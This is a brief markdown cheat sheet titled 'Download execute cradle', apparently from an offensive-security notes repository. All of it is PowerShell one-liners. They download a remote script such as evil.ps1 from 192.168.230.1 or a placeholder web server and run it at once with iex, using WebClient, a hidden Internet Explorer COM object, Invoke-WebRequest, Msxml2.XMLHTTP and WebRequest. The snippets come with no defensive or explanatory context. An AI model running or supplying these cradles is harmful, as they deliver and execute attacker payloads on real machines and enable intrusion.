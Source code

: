 # Download execute cradle 

```PowerShell
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1') 
```

```PowerShell
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```

## PSv3 onwards 
```PowerShell
iex (iwr 'http://192.168.230.1/evil.ps1') 
```

```PowerShell
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText 

```

```PowerShell
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1") 

$r = $wr.GetResponse() 

IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
